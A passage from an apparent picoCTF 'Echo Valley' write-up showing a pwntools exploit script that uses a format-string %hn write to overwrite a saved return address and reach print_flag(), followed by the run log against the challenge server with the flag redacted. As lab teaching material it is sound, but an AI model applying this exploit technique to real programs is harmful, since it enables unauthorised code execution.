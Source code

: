     # calculate absolute address of the return value on the stack
    ret_to_main_stack_addr = rbp_of_main_address - 0x08
    print('return value memory address: ' + str(hex(ret_to_main_stack_addr)))

    # construct a write via format string vulnerability, to write the
    # two LSBs (short word) with those of the target return address
    # (calculated using the leaked <main+18> address and the calculated 
    # relative offset to print_flag().
    payload = b'%' + str((ret_to_main_address - 0x1AA) & 0xFFFF).encode() + b'x%8$hn'
    payload += b'.'*(16 - len(payload))
    payload += p64(ret_to_main_stack_addr)
    target_proc.sendline(payload)
    target_proc.sendline(b'exit')
    target_proc.interactive()

Running the script generates a lot of output to construct the correct write values, but once successful the script goes interactive and we can see the contents of the `flag.txt` after successfully executing the `print_flag()` function.

    $ ./pwn-valley.py remote shape-facility.picoctf.net 63273
    [*] '/home/user/picoCTF/Echo-Valley/valley'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [+] Opening connection to shape-facility.picoctf.net on port 63273: Done
    Return to main() address: 0x56715a254413
    Saved $rbp (stack frame): 0x7ffc0ca1ee70
    return value memory address: 0x7ffc0ca1ee68
    [*] Switching to interactive mode
    You heard in the distance:                                                                                               
    ... (snip - lots of output) ...


          468f65c0....h\xee\xa1
     \xfc$                                                                     The Valley Disappears
    Congrats! Here is your flag: picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
